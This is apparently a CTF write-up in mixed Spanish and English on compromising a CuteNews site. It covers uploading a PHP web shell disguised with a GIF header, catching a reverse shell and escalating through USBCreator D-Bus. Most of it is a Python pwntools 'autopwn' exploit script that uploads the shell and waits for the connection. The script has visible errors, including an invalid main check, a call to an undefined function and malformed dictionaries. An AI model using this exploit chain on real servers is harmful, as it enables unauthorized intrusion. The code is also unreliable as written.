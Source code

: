 ## Tecnicas utilizadas
-   CuteNews Exploitation
-   Code Analysis
-   USBCreator D-Bus Privilege Escalation
-   Python Exploit Development (AutoPwn)
## Procedimiento
- Web Discovery without conventional fuzzing software because the page use Fail2ban plugin.
- Consulta en searchsploit para conocer si hay alguna vulnerabilidad para el gestor de contenido *CuteNews*
- Subir un web shell con la cabezera de un gif(**GIF8;**) escrito en php para bypassear la subida de imagenes del panel de perfil. Establecer una reverse shell.
-> python scripting(autopwn)
``` python
#!/usr/bin/python3

from pwn import * #pip3 install pwntools
import pdb #Debuggin
import re #Regex
import requests
import signal
import time
import threading

def def_handler(sig, frame):
	print("\n[!] Saliendo...")
	sys.exit(1)

#ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Uso del programa
if len(sys.argv) != 5:
	print("\n\n[!] Uso: python3 " + sys.argv[0] + " http://<victim-ip>/CuteNews/ Usuario Contraseña filename.php" )
	sys.exit(1)

#Variables globales
main_url = sys.argv[1] 
user = sys.argv[2]
password = sys.argv[3]
filename = sys.argv[4]
lport = 443

register_url = main_url + "index.php?register"
get_values_url = main_url + "index.php?mod=main&opt=personal"
login_url = main_url + "index.php"
rce_url = main_url + "uploads/avatar_%s_%s" % (user, filename)


def register():
	post_data = {
		'<data extracted from the burpsuite display>'
	}
	
	r = requests.post(register_url, data=post_data)

def uploadFile():
	s = requests.session()
	
	post_data = {
		"<data extracted from the burpsuite display>"
	}
	
	r = s.post(login_url, data=post_data)
	r = s.get(get_values_url)
	
	signatureKey = re.findall(r'name="__signature_key" value="(.*?)" ', r.text)[0]
	signatureDsi = re.findall(r'name="__signature_dsi" value="(.*?)" ', r.text)[0]
	
	post_data = {
		"<data extracted from the burpsuite display>"
	}
	f = open(filename, "r")
	content = f.read()
	
	file_to_upload = {'avatar_file:' (filename, content)}
	r = s.post(login_url, data=post_data, files=file_to_upload)
	
	r = s.get(rce_url)


if __name__ = "__main__":
	registerUser()
	
	try:
		threading.Thread(target = uploadFile, args=()).start()
	except Exception as e:
		log.error(str(e))
	
	shell = listen(lport, timeout=20).wait_for_connection()
	shell.interactive()
```
- Analisis del codigo fuente para ver donde almacen los datos CuteNews.
- Romper hashes y user pivoting para convertirnos en los dos diferentes perfiles existentes.
- Explotamos la vulnerabilidad de USBcreator guiandonos del exploit de palo alto.''